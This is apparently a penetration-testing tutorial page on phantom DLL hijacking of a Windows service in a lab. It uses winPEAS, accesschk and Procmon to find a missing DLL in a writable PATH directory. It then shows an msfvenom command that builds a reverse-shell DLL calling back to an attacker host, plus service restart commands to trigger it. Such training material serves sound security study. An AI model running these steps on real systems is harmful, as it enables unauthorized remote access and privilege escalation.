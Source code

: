 # Phantom DLL Hijacking

In this type of DLL we target a missing dll and place our own dll instead.

## <mark style="color:red;">Finding the target</mark>

Use winPEAS to enumerate non-Windows services:

```
winPEASany.exe quiet servicesinfo
```

![](<../../../../.gitbook/assets/image (71).png>)

Note that the C:\Temp directory is writable and in the PATH. Start by enumerating which of these services our user has stop and start access to:

```
accesschk.exe /accepteula -uvqc user dllsvc
```

![](<../../../../.gitbook/assets/image (81) (1).png>)

The “dllsvc” service is vulnerable to DLL Hijacking. According to the winPEAS output, the service runs the dllhijackservice.exe executable. We can confirm this manually:

```
 sc qc dllsvc
```

![](<../../../../.gitbook/assets/image (74) (1).png>)

![](<../../../../.gitbook/assets/image (88) (1).png>)

in a real-world scenario we would download the executable to our own windows machine of analysis.then create a new service for the binary file that we copied and give it the path of the service binary and continue to the next steps:

create a service for the binary in our own system

```
sc create binPath= c:\temp\dllhijackservice.exe type= own 
```

Run Procmon64.exe with administrator privileges. Press Ctrl+L to open the Filter menu.

Add a new filter on the Process Name matching dllhijackservice.exe

![](<../../../../.gitbook/assets/image (78).png>)

On the main screen, deselect registry activity and network activity.

![](<../../../../.gitbook/assets/image (102).png>)

Start the service:

```
net start dllsvc
```

![](<../../../../.gitbook/assets/image (80).png>)

​​Back in Procmon, note that a number of “NAME NOT FOUND” errors appear, associated with the hijackme.dll file.

![](<../../../../.gitbook/assets/image (103) (1).png>)

At some point, Windows tries to find the file in the C:\Temp directory, which as we found earlier, is writable by our user.

## <mark style="color:red;">Exploitation</mark>

On Kali, generate a reverse shell DLL named hijackme.dll:

```
msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.1 lport=5555 -f dll -o VirtualBox\ VMs/shares/hijackme.dll
```

Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on Kali and then stop/start the service to trigger the exploit:

```
net stop dllsvc
net start dllsvc
```

![](<../../../../.gitbook/assets/image (90) (1).png>)
